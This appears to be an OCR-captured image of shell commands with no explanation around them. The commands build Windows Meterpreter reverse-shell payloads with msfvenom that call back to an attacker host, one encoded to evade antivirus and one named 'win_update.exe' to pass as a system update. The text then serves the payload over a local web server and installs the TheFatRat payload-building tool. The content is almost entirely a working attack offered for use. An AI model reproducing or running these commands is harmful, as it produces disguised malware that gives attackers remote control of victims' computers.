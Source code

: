 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe


python3 -m http.server 8080

http://192.168.1.105:8080/payload.exe


git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh
